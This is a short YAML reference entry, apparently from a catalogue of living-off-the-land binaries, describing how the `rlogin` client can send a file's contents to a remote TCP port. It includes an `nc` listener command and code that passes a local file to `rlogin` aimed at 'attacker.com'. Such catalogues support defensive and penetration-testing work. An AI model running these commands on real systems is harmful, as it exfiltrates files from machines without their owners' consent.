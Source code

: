 ```yaml
---
description: |
  Usually `rlogin` is a symlink to `ssh`, the following works only when the *real* `rlogin` is used (e.g., from the `rsh-client` APT package).
functions:
  file-upload:
    - description: |
        Send contents of a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker system to capture the contents.

        `rlogin` hangs waiting for the remote peer to close the socket.

        The file is corrupted by leading and trailing spurious data.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        rlogin -l "$(cat $LFILE)" -p $RPORT $RHOST
---
```

